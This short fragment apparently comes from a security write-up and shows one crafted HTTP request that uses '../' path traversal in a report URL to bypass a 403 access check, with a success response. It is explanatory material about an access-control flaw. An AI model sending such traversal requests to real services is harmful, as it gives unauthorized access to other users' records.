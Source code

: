 #### Bypassing the 403 forbidden using URL tampering
````
GET /activities/report/1234/blah/../../../report/4567


Resonse
{"success":"true"}
````
